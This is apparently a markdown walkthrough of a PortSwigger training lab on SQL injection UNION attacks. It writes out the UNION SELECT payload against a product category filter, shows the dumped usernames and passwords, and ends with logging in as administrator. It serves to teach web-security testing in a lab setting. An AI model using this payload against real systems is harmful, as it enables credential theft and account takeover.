

# SQL injection UNION attack, retrieving data from other tables

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___

**Note:** *The database contains a table called `users` with the columns `username` and `password`
In this situation, you can retrieve the contents of the `users` table by submitting the input:*
`' UNION SELECT username, password FROM users--`
URL Encoded =>`'+UNION+SELECT+username,+password+FROM+users--`

step 1

send `/filter?category=Lifestyle` to the repeater


step 2

use `'+UNION+SELECT+username,+password+FROM+users--`
payload will be
`/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--`



step 3 

Note down user id and password

```html
<tr>
	<th>carlos</th>
	<td>w3bl3kcw39b0n77j9m5v</td>
</tr>
<tr>
	<th>administrator</th>
	<td>o62bhcc293ztnchnuj5g</td>
</tr>
<tr>
	<th>wiener</th>
	<td>ot3d4fjz8zob5yzk7rbr</td>
</tr>
```

login the account using
administrator id  and password

